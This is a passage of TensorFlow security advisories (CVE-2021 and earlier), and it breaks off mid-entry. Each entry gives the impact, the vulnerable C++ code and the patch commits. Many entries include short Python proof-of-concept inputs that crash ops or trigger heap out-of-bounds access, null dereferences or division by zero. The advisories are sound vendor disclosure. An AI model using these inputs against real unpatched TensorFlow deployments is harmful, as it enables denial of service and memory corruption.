The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-158: FPE in TFLite pooling operations

### CVE Number
CVE-2021-37684

### Impact
The implementations of pooling in TFLite are vulnerable to division by 0
errors as there are no checks for divisors not being 0.

### Patches
We have patched the issue in GitHub commit
[dfa22b348b70bb89d6d6ec0ff53973bacb4f4695](https://github.com/tensorflow/tensorflow/commit/dfa22b348b70bb89d6d6ec0ff53973bacb4f4695).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2020-019: Crash due to invalid splits in SparseCountSparseOutput

### CVE Number
CVE-2020-15197

### Impact
The `SparseCountSparseOutput` implementation does not validate that the input
arguments form a valid sparse tensor. In particular, there is no validation that
the `indices` tensor has rank 2. This tensor must be a matrix because code
assumes its elements are [accessed as elements of a
matrix](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/count_ops.cc#L185):
```cc
    const auto indices_values = indices.matrix<int64>();
```

However, malicious users can pass in tensors of different rank, resulting in a
`CHECK` assertion failure and a crash. This can be used to cause denial of
service in serving installations, if users are allowed to control the components
of the input sparse tensor.

### Vulnerable Versions
TensorFlow 2.3.0.

### Patches
We have patched the issue in
[3cbb917b4714766030b28eba9fb41bb97ce9ee02](https://github.com/tensorflow/tensorflow/commit/3cbb917b4714766030b28eba9fb41bb97ce9ee02)
and will release a patch release.

We recommend users to upgrade to TensorFlow 2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-015.md).
## TFSA-2021-106: Crash in `tf.strings.substr` due to `CHECK`-fail

### CVE Number
CVE-2021-29617

### Impact
An attacker can cause a denial of service via `CHECK`-fail in
`tf.strings.substr` with invalid arguments:

```python
import tensorflow as tf
tf.strings.substr(input='abc', len=1, pos=[1,-1])
```

```python
import tensorflow as tf
tf.strings.substr(input='abc', len=1, pos=[1,2])
```

### Patches
We have received a patch for the issue in GitHub commit
[890f7164b70354c57d40eda52dcdd7658677c09f](https://github.com/tensorflow/tensorflow/commit/890f7164b70354c57d40eda52dcdd7658677c09f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported in
[#46900](https://github.com/tensorflow/issues/46900) and fixed in
[#46974](https://github.com/tensorflow/issues/46974).
## TFSA-2021-110: Floating point exception in `SparseDenseCwiseDiv`

### CVE Number
CVE-2021-37636

### Impact
The implementation of `tf.raw_ops.SparseDenseCwiseDiv` is vulnerable to a
division by 0 error:

```python
import tensorflow as tf
import numpy as np

tf.raw_ops.SparseDenseCwiseDiv(
  sp_indices=np.array([[4]]),
  sp_values=np.array([-400]),
  sp_shape=np.array([647.]),
  dense=np.array([0]))
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/a1bc56203f21a5a4995311825ffaba7a670d7747/tensorflow/core/kernels/sparse_dense_binary_op_shared.cc#L56)
uses a common class for all binary operations but fails to treat the division by
0 case separately.

### Patches
We have patched the issue in GitHub commit
[d9204be9f49520cdaaeb2541d1dc5187b23f31d9](https://github.com/tensorflow/tensorflow/commit/d9204be9f49520cdaaeb2541d1dc5187b23f31d9).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-093: Heap OOB write in TFLite

### CVE Number
CVE-2021-29603

### Impact
A specially crafted TFLite model could trigger an OOB write on heap in the
TFLite implementation of
[`ArgMin`/`ArgMax`](https://github.com/tensorflow/tensorflow/blob/102b211d892f3abc14f845a72047809b39cc65ab/tensorflow/lite/kernels/arg_min_max.cc#L52-L59):

```cc
TfLiteIntArray* output_dims = TfLiteIntArrayCreate(NumDimensions(input) - 1);
int j = 0;
for (int i = 0; i < NumDimensions(input); ++i) {
  if (i != axis_value) {
    output_dims->data[j] = SizeOfDimension(input, i);
    ++j;
  }
}
```

If `axis_value` is not a value between 0 and `NumDimensions(input)`, then the
condition in the `if` is never true, so code writes past the last valid element
of `output_dims->data`.

### Patches
We have patched the issue in GitHub commit
[c59c37e7b2d563967da813fa50fe20b21f4da683](https://github.com/tensorflow/tensorflow/commit/c59c37e7b2d563967da813fa50fe20b21f4da683).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-184: Heap OOB in shape inference for `QuantizeV2`

### CVE Number
CVE-2021-41211

### Impact
The [shape inference code for `QuantizeV2`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/framework/common_shape_fns.cc#L2509-L2530) can trigger a read outside of bounds of heap allocated array:

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeV2(
    input=[1.0,1.0],
    min_range=[1.0,10.0],
    max_range=[1.0,10.0],
    T=tf.qint32,
    mode='MIN_COMBINED',
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100,
    ensure_minimum_range=10)
  return data

test()
```

This occurs whenever `axis` is a negative value less than `-1`. In this case, we are accessing data before the start of a heap buffer:

```cc
int axis = -1;
Status s = c->GetAttr("axis", &axis);
if (!s.ok() && s.code() != error::NOT_FOUND) {
  return s;
}
...
if (axis != -1) {
  ...
  TF_RETURN_IF_ERROR(
      c->Merge(c->Dim(minmax, 0), c->Dim(input, axis), &depth));
}
```

The code allows `axis` to be an optional argument (`s` would contain an `error::NOT_FOUND` error code). Otherwise, it assumes that `axis` is a valid index into the dimensions of the `input` tensor. If `axis` is less than `-1` then this results in a heap OOB read.

### Patches
We have patched the issue in GitHub commit [a0d64445116c43cf46a5666bd4eee28e7a82f244](https://github.com/tensorflow/tensorflow/commit/a0d64445116c43cf46a5666bd4eee28e7a82f244).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, as this version is the only one that is also affected.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-171: Heap OOB in `SparseBinCount`

### CVE Number
CVE-2021-41226

### Impact
The [implementation](https://github.com/tensorflow/tensorflow/blob/e71b86d47f8bc1816bf54d7bddc4170e47670b97/tensorflow/core/kernels/bincount_op.cc#L353-L417) of `SparseBinCount` is vulnerable to a heap OOB:

```python
import tensorflow as tf


tf.raw_ops.SparseBincount(
  indices=[[0],[1],[2]]
  values=[0,-10000000]
  dense_shape=[1,1]
  size=[1]
  weights=[3,2,1]
  binary_output=False)
```

This is because of missing validation between the elements of the `values` argument and the shape of the sparse output:


```cc
for (int64_t i = 0; i < indices_mat.dimension(0); ++i) {
  const int64_t batch = indices_mat(i, 0);
  const Tidx bin = values(i);
  ...
  out(batch, bin) = ...;
}
```

### Patches
We have patched the issue in GitHub commit [f410212e373eb2aec4c9e60bf3702eba99a38aba](https://github.com/tensorflow/tensorflow/commit/f410212e373eb2aec4c9e60bf3702eba99a38aba).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2021-130: Reference binding to nullptr in `RaggedTensorToSparse`

### CVE Number
CVE-2021-37656

### Impact
An attacker can cause undefined behavior via binding a reference to null pointer
in `tf.raw_ops.RaggedTensorToSparse`:

```python
import tensorflow as tf

tf.raw_ops.RaggedTensorToSparse(
  rt_nested_splits=[[0, 38, 0]],
  rt_dense_values=[])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/f24faa153ad31a4b51578f8181d3aaab77a1ddeb/tensorflow/core/kernels/ragged_tensor_to_sparse_kernel.cc#L30)
has an incomplete validation of the splits values: it does not check that they
are in increasing order.

### Patches
We have patched the issue in GitHub commit
[1071f554dbd09f7e101324d366eec5f4fe5a3ece](https://github.com/tensorflow/tensorflow/commit/1071f554dbd09f7e101324d366eec5f4fe5a3ece).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-057: Heap out of bounds read in `MaxPoolGradWithArgmax`

### CVE Number
CVE-2021-29570

### Impact
The implementation of `tf.raw_ops.MaxPoolGradWithArgmax` can cause reads outside
of bounds of heap allocated data if attacker supplies specially crafted inputs:

```python
import tensorflow as tf

input = tf.constant([10.0, 10.0, 10.0], shape=[1, 1, 3, 1], dtype=tf.float32)
grad = tf.constant([10.0, 10.0, 10.0, 10.0], shape=[1, 1, 1, 4], dtype=tf.float32)
argmax = tf.constant([1], shape=[1], dtype=tf.int64)
ksize = [1, 1, 1, 1]
strides = [1, 1, 1, 1]

tf.raw_ops.MaxPoolGradWithArgmax(
  input=input, grad=grad, argmax=argmax, ksize=ksize, strides=strides,
  padding='SAME', include_batch_in_index=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/ef0c008ee84bad91ec6725ddc42091e19a30cf0e/tensorflow/core/kernels/maxpooling_op.cc#L1016-L1017)
uses the same value to index in two different arrays but there is no guarantee
that the sizes are identical.

### Patches
We have patched the issue in GitHub commit
[dcd7867de0fea4b72a2b34bd41eb74548dc23886](https://github.com/tensorflow/tensorflow/commit/dcd7867de0fea4b72a2b34bd41eb74548dc23886).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-083: Division by zero in TFLite's implementation of `EmbeddingLookup`

### CVE Number
CVE-2021-29596

### Impact
The implementation of the `EmbeddingLookup` TFLite operator is [vulnerable to a
division by zero
error](https://github.com/tensorflow/tensorflow/blob/e4b29809543b250bc9b19678ec4776299dd569ba/tensorflow/lite/kernels/embedding_lookup.cc#L73-L74):

```cc
const int row_size = SizeOfDimension(value, 0);
const int row_bytes = value->bytes / row_size;
```

An attacker can craft a model such that the first dimension of the `value` input
is 0.

### Patches
We have patched the issue in GitHub commit
[f61c57bd425878be108ec787f4d96390579fb83e](https://github.com/tensorflow/tensorflow/commit/f61c57bd425878be108ec787f4d96390579fb83e).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-045: Division by 0 in `Reverse`

### CVE Number
CVE-2021-29556

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.Reverse`:

```python
import tensorflow as tf

tensor_input = tf.constant([], shape=[0, 1, 1], dtype=tf.int32)
dims = tf.constant([False, True, False], shape=[3], dtype=tf.bool)

tf.raw_ops.Reverse(tensor=tensor_input, dims=dims)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/36229ea9e9451dac14a8b1f4711c435a1d84a594/tensorflow/core/kernels/reverse_op.cc#L75-L76)
performs a division based on the first dimension of the tensor argument:

```cc
const int64 N = input.dim_size(0);
const int64 cost_per_unit = input.NumElements() / N;
```

Since this is controlled by the user, an attacker can trigger a denial of
service.

### Patches
We have patched the issue in GitHub commit
[4071d8e2f6c45c1955a811fee757ca2adbe462c1](https://github.com/tensorflow/tensorflow/commit/4071d8e2f6c45c1955a811fee757ca2adbe462c1).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2019-001: Null Pointer Dereference Error in Decoding GIF Files

### CVE Number

CVE-2019-9635

### Issue Description

Certain invalid GIF files can produce a null pointer dereference when reading
from the color map of a frame if the color map is missing.

### Impact

A maliciously crafted GIF file could cause a denial of service attack for
TensorFlow by making it crash.

### Vulnerable Versions

TensorFlow 1.0.0, 1.0.1, 1.1.0, 1.2.0, 1.2.1, 1.3.0, 1.3.1, 1.4.0, 1.4.1, 1.5.0,
1.5.1, 1.6.0, 1.7.0, 1.7.1, 1.8.0, 1.9.0, 1.10.0, 1.10.1, 1.11.0, 1.12.0

### Mitigation

We have patched the vulnerability in GitHub commit
[e41cb124](https://github.com/tensorflow/tensorflow/commit/e41cb124cd0b325821af85cdacd9d8a12e206418).

If users are loading untrusted configurations in TensorFlow, we encourage users
to apply the patch to upgrade the version of TensorFlow they are currently using.

Additionally, we have released TensorFlow version 1.12.2 to mitigate this
vulnerability. Versions 1.13.0 and later were released using the patched commit.

### Credits

This issue was discovered by Yakun Zhang and Zheng Huang of Baidu Security Lab.
## TFSA-2021-099: Invalid validation in `QuantizeAndDequantizeV2`

### CVE Number
CVE-2021-29610

### Impact
The validation in `tf.raw_ops.QuantizeAndDequantizeV2` allows invalid values for
`axis` argument:

```python
import tensorflow as tf

input_tensor = tf.constant([0.0], shape=[1], dtype=float)
input_min = tf.constant(-10.0)
input_max = tf.constant(-10.0)

tf.raw_ops.QuantizeAndDequantizeV2(
  input=input_tensor, input_min=input_min, input_max=input_max,
  signed_input=False, num_bits=1, range_given=False, round_mode='HALF_TO_EVEN',
  narrow_range=False, axis=-2)
```

The
[validation](https://github.com/tensorflow/tensorflow/blob/eccb7ec454e6617738554a255d77f08e60ee0808/tensorflow/core/kernels/quantize_and_dequantize_op.cc#L74-L77)
uses `||` to mix two different conditions:

```cc
OP_REQUIRES(ctx,
  (axis_ == -1 || axis_ < input.shape().dims()),
  errors::InvalidArgument(...));
```

If `axis_ < -1` the condition in `OP_REQUIRES` will still be true, but this
value of `axis_` results in heap underflow. This allows attackers to read/write
to other data on the heap.

### Patches
We have patched the issue in GitHub commit
[c5b0d5f8ac19888e46ca14b0e27562e7fbbee9a9](https://github.com/tensorflow/tensorflow/commit/c5b0d5f8ac19888e46ca14b0e27562e7fbbee9a9).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-055: Reference binding to null in `ParameterizedTruncatedNormal`

### CVE Number
CVE-2021-29568

### Impact
An attacker can trigger undefined behavior by binding to null pointer in
`tf.raw_ops.ParameterizedTruncatedNormal`:

```python
import tensorflow as tf

shape = tf.constant([], shape=[0], dtype=tf.int32)
means = tf.constant((1), dtype=tf.float32)
stdevs = tf.constant((1), dtype=tf.float32)
minvals = tf.constant((1), dtype=tf.float32)
maxvals = tf.constant((1), dtype=tf.float32)

tf.raw_ops.ParameterizedTruncatedNormal(
  shape=shape, means=means, stdevs=stdevs, minvals=minvals, maxvals=maxvals)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/3f6fe4dfef6f57e768260b48166c27d148f3015f/tensorflow/core/kernels/parameterized_truncated_normal_op.cc#L630)
does not validate input arguments before accessing the first element of `shape`:

```cc
int32 num_batches = shape_tensor.flat<int32>()(0);
```

If `shape` argument is empty, then `shape_tensor.flat<T>()` is an empty array.

### Patches
We have patched the issue in GitHub commit
[5e52ef5a461570cfb68f3bdbbebfe972cb4e0fd8](https://github.com/tensorflow/tensorflow/commit/5e52ef5a461570cfb68f3bdbbebfe972cb4e0fd8).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-008: `CHECK`-fail in `SparseCross` due to type confusion

### CVE Number
CVE-2021-29519

### Impact
The API of `tf.raw_ops.SparseCross` allows combinations which would
result in a `CHECK`-failure and denial of service:

```python
import tensorflow as tf

hashed_output = False
num_buckets = 1949315406
hash_key = 1869835877
out_type = tf.string
internal_type = tf.string

indices_1 = tf.constant([0, 6], shape=[1, 2], dtype=tf.int64)
indices_2 = tf.constant([0, 0], shape=[1, 2], dtype=tf.int64)
indices = [indices_1, indices_2]

values_1 = tf.constant([0], dtype=tf.int64)
values_2 = tf.constant([72], dtype=tf.int64)
values = [values_1, values_2]

batch_size = 4
shape_1 = tf.constant([4, 122], dtype=tf.int64)
shape_2 = tf.constant([4, 188], dtype=tf.int64)
shapes = [shape_1, shape_2]

dense_1 = tf.constant([188, 127, 336, 0], shape=[4, 1], dtype=tf.int64)
dense_2 = tf.constant([341, 470, 470, 470], shape=[4, 1], dtype=tf.int64)
dense_3 = tf.constant([188, 188, 341, 922], shape=[4, 1], dtype=tf.int64)
denses = [dense_1, dense_2, dense_3]

tf.raw_ops.SparseCross(indices=indices, values=values, shapes=shapes, dense_inputs=denses, hashed_output=hashed_output,
                       num_buckets=num_buckets, hash_key=hash_key, out_type=out_type, internal_type=internal_type)
```

The above code will result in a `CHECK` fail in
[`tensor.cc`](https://github.com/tensorflow/tensorflow/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/tensorflow/core/framework/tensor.cc#L670-L675):

```cc
void Tensor::CheckTypeAndIsAligned(DataType expected_dtype) const {
  CHECK_EQ(dtype(), expected_dtype)
      << " " << DataTypeString(expected_dtype) << " expected, got "
      << DataTypeString(dtype());
  ...
}
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/3d782b7d47b1bf2ed32bd4a246d6d6cadc4c903d/tensorflow/core/kernels/sparse_cross_op.cc#L114-L116)
is tricked to consider a tensor of type `tstring` which in fact contains
integral elements:

```cc
  if (DT_STRING == values_.dtype())
      return Fingerprint64(values_.vec<tstring>().data()[start + n]);
  return values_.vec<int64>().data()[start + n];
```

Fixing the type confusion by preventing mixing `DT_STRING` and `DT_INT64` types
solves this issue.

### Patches
We have patched the issue in GitHub commit
[b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025](https://github.com/tensorflow/tensorflow/commit/b1cc5e5a50e7cee09f2c6eb48eb40ee9c4125025).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-107: Segfault in `tf.raw_ops.SparseCountSparseOutput`

### CVE Number
CVE-2021-29619

### Impact
Passing invalid arguments (e.g., discovered via fuzzing) to
`tf.raw_ops.SparseCountSparseOutput` results in segfault.

### Patches
We have patched the issue in GitHub commit
[82e6203221865de4008445b13c69b6826d2b28d9](https://github.com/tensorflow/tensorflow/commit/82e6203221865de4008445b13c69b6826d2b28d9).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.
## TFSA-2021-147: `CHECK`-fail in `MapStage`

### CVE Number
CVE-2021-37673

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.MapStage`:

```python
import tensorflow as tf

tf.raw_ops.MapStage(
  key=tf.constant([], shape=[0, 0, 0, 0], dtype=tf.int64),
  indices=tf.constant((0), dtype=tf.int32),
  values=[tf.constant((0), dtype=tf.int32)],
  dtypes=[tf.int32,
  tf.int64],
  capacity=0,
  memory_limit=0,
  container='',
  shared_name='')
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/kernels/map_stage_op.cc#L513)
does not check that the `key` input is a valid non-empty tensor.

### Patches
We have patched the issue in GitHub commit
[d7de67733925de196ec8863a33445b73f9562d1d](https://github.com/tensorflow/tensorflow/commit/d7de67733925de196ec8863a33445b73f9562d1d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
## TFSA-2021-121: Null pointer dereference in `SparseTensorSliceDataset`

### CVE Number
CVE-2021-37647

### Impact
When a user does not supply arguments that determine a valid sparse tensor,
`tf.raw_ops.SparseTensorSliceDataset` implementation can be made to dereference
a null pointer:

```python
import tensorflow as tf

tf.raw_ops.SparseTensorSliceDataset(
  indices=[[],[],[]],
  values=[1,2,3],
  dense_shape=[3,3])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/data/sparse_tensor_slice_dataset_op.cc#L240-L251)
has some argument validation but fails to consider the case when either
`indices` or `values` are provided for an empty sparse tensor when the other is
not.

If `indices` is empty (as in the example above), then [code that performs
validation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/data/sparse_tensor_slice_dataset_op.cc#L260-L261)
(i.e., checking that the indices are monotonically increasing) results in a null
pointer dereference:

```cc
    for (int64_t i = 0; i < indices->dim_size(0); ++i) {
      int64_t next_batch_index = indices->matrix<int64>()(i, 0);
      ...
    }
```

If `indices` as provided by the user is empty, then `indices` in the C++ code
above is backed by an empty `std::vector`, hence calling `indices->dim_size(0)`
results in null pointer dereferencing (same as calling `std::vector::at()` on an
empty vector).

### Patches
We have patched the issue in GitHub commit
[02cc160e29d20631de3859c6653184e3f876b9d7](https://github.com/tensorflow/tensorflow/commit/02cc160e29d20631de3859c6653184e3f876b9d7).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-030: Null pointer dereference in `StringNGrams`

### CVE Number
CVE-2021-29541

### Impact
An attacker can trigger a dereference of a null pointer in
`tf.raw_ops.StringNGrams`:

```python
import tensorflow as tf

data=tf.constant([''] * 11, shape=[11], dtype=tf.string)

splits = [0]*115
splits.append(3)
data_splits=tf.constant(splits, shape=[116], dtype=tf.int64)

tf.raw_ops.StringNGrams(data=data, data_splits=data_splits, separator=b'Ss',
                        ngram_widths=[7,6,11],
                        left_pad='ABCDE', right_pad=b'ZYXWVU',
                        pad_width=50, preserve_short_sequences=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L67-L74)
does not fully validate the `data_splits` argument. This would result in
[`ngrams_data`](https://github.com/tensorflow/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L106-L110)
to be a null pointer when the output would be computed to have 0 or negative
size.

Later writes to the output tensor would then cause a null pointer dereference.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/tensorflow/tensorflow/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-053: Null pointer dereference in `SparseFillEmptyRows`

### CVE Number
CVE-2021-29565

### Impact
An attacker can trigger a null pointer dereference in the implementation of
`tf.raw_ops.SparseFillEmptyRows`:

```python
import tensorflow as tf

indices = tf.constant([], shape=[0, 0], dtype=tf.int64)
values = tf.constant([], shape=[0], dtype=tf.int64)
dense_shape = tf.constant([], shape=[0], dtype=tf.int64)
default_value = 0

tf.raw_ops.SparseFillEmptyRows(
    indices=indices, values=values, dense_shape=dense_shape,
    default_value=default_value)
```

This is because of missing
[validation](https://github.com/tensorflow/tensorflow/blob/fdc82089d206e281c628a93771336bf87863d5e8/tensorflow/core/kernels/sparse_fill_empty_rows_op.cc#L230-L231)
that was covered under a `TODO`. If the `dense_shape` tensor is empty, then
`dense_shape_t.vec<>()` would cause a null pointer dereference in the
implementation of the op:

```cc
template <typename T, typename Tindex>
struct SparseFillEmptyRows<CPUDevice, T, Tindex> {
  Status operator()(OpKernelContext* context, const Tensor& default_value_t,
                    const Tensor& indices_t, const Tensor& values_t,
                    const Tensor& dense_shape_t,
                    typename AsyncOpKernel::DoneCallback done) {
    ...
    const auto dense_shape = dense_shape_t.vec<Tindex>();
    ...
  }
}
```

### Patches
We have patched the issue in GitHub commit
[faa76f39014ed3b5e2c158593b1335522e573c7f](https://github.com/tensorflow/tensorflow/commit/faa76f39014ed3b5e2c158593b1335522e573c7f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-024: `CHECK`-fail in `SparseConcat`

### CVE Number
CVE-2021-29534

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.SparseConcat`:

```python
import tensorflow as tf
import numpy as np

indices_1 = tf.constant([[514, 514], [514, 514]], dtype=tf.int64)
indices_2 = tf.constant([[514, 530], [599, 877]], dtype=tf.int64)
indices = [indices_1, indices_2]

values_1 = tf.zeros([0], dtype=tf.int64)
values_2 = tf.zeros([0], dtype=tf.int64)
values = [values_1, values_2]

shape_1 = tf.constant([442, 514, 514, 515, 606, 347, 943, 61, 2], dtype=tf.int64)
shape_2 = tf.zeros([9], dtype=tf.int64)
